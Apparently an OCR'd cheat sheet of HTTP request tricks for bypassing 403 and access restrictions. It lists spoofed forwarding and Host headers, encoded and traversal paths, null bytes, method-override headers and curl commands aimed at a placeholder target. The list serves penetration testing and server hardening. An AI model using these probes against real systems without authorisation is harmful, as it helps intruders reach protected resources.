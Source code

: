 # HTTP Request Bypass Techniques

## Common Headers

- **User-Agent Header**
  - `User-Agent: Googlebot/2.1 (+http://www.google.com/bot.html)`

- **Referer Header**
  - `Referer: <target>`

- **X-Forwarded Headers**
  - `X-Forwarded-For: 127.0.0.1`
  - `X-Forwarded-Host: <host>`
  - `X-Original-URL: /`

- **Origin Header**
  - `Origin: <target>`

## Path Traversal and Normalization Tricks

- `GET /%2e HTTP/1.1`
- `GET /. HTTP/1.1`
- `GET /./ HTTP/1.1`
- `GET /..;/ HTTP/1.1`

## HTTP Method Manipulation

- `HEAD / HTTP/1.1`

## Host Header Attacks

- `Host: <target>`
- `X-Host: <trusted host>`

## Encoded Path Bypass Attempts

- `GET /%252e HTTP/1.1`
- `GET /%2e%2e/ HTTP/1.1`
- `GET /%2f HTTP/1.1`

## Unicode and Encoding Tricks

- `GET /%c0%af HTTP/1.1`
- `GET /%e0%80%af HTTP/1.1`

## Null Byte Injection

- `GET /%00 HTTP/1.1`
- `GET /%00/ HTTP/1.1`

## Content-Length Manipulation

- `Content-Length: 0`
- `Content-Length: 16`

## HTTP Method Override Headers

- `X-Original-Method: GET`
- `X-Http-Method-Override: GET`

## HTTP Version Spoofing

- `GET / HTTP/< change to 1.0 / 1.1 / 2 >`

## Conflicting Method and Header

- `GET / HTTP/1.1`
- `X-HTTP-Method: POST`

## `curl` Examples

- `curl -H "Host: another-allowed-host.com" --resolve "sub.target.com:443:XX.XX.XX.XX" <target>`
- `curl -H "X-Forwarded-For: 1.1.1.1" <target>`

## 403 Bypass Example

- If `403 Forbidden` on `target.com/admin`, try:
  - `target.com/%2e/admin`


